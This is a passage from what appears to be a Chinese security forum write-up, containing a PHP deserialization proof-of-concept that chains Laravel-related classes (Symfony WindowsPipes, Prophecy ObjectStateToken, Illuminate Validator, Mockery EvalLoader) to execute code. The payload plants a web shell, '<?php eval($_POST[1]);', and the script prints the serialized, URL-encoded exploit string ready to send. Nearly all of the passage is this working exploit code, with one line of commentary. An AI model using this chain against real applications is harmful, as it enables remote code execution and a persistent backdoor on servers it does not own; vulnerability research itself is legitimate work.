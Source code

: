 ![Pasted image 20220507190749.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-0daaf9fa7c2c20d1cad0c6ea4f96574ecb6f408b.png)

直接返回了`$this->code`直接赋值即可。  
构造poc

```php
<?php
namespace Mockery\Loader;
class EvalLoader{}

namespace Faker;
use Mockery\Loader\EvalLoader;
class DefaultGenerator{
    public $default;
    public function __construct(){
        $this->default=new EvalLoader;
    }
}
namespace Illuminate\Validation;
use Faker\DefaultGenerator;
class Validator{
    protected $extensions = [];
    protected $container;
    public function __construct(){
        $this->extensions['y']='huahua@load';
        $this->container=new DefaultGenerator;
    } 
}

namespace Mockery\Generator;
use Faker\DefaultGenerator;
class MockDefinition{
    protected $config;
    public function __construct(){
        $this->config=new DefaultGenerator;
        $this->config->default='huahua';
        $this->code='<?php eval($_POST[1]);';
    }
}

namespace Prophecy\Argument\Token;
use Illuminate\Validation\Validator;
use Mockery\Generator\MockDefinition;
class ObjectStateToken{
    private $util;
    private $value;
    public function __construct(){
        $this->util=new Validator;
        $this->value=new MockDefinition;
    }
}

namespace Symfony\Component\Process\Pipes;
use Prophecy\Argument\Token\ObjectStateToken;
class WindowsPipes{
    private $files = array();
    public function __construct(){
        $this->files = array(new ObjectStateToken());
    }
}
echo urlencode(serialize(new WindowsPipes()));
?>
```
